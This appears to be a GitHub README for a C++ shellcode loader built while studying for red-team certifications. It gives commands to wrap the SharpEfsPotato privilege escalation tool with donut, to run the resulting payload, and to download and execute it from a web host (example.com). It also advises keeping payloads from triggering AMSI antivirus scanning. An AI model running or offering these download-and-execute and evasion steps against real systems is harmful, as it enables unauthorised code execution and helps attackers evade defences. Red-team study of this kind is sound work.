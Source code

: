 A relatively simple shellcode loader in C++ that supports loading from http and also xor.
While prepping for the CRTP/CRTE I've been thinking about the tools that I use and how that I troubleshoot issues. I've realized most of the issues I run into stem from not understanding how these systems interact at a low level, and so I created this loader to broaden my understanding.

Requires donut:
https://github.com/TheWover/donut
```
pip install donut-shellcode
```

Usage:
Create your payload
```bash
python donutEncoder.py -i SharpEfsPotato.exe -b 1 --args='-p calc.exe' -e "HelloWorld"
```

Copy the file over and execute
```powershell
.\Loader.exe /p:payload.bin /e:HelloWorld
```

Or host the file on a web server and use the loader to download and execute
```powershell
.\Loader.exe /p:http://example.com/payload.bin /e:HelloWorld
```

Omit `-e` and `/e:` if not using the XOR encoding function.

Donut doesn't bypass amsi anymore (AMSI_Patch_T.B12), so I recommend making sure your payloads don't trigger it before sending them off. Add the flag `-b 1` to avoid your shellcode being created with the now non-functional amsi-bypass. 

Inspired by my teammate Mane:
https://github.com/manesec/shellcodeloader4mane
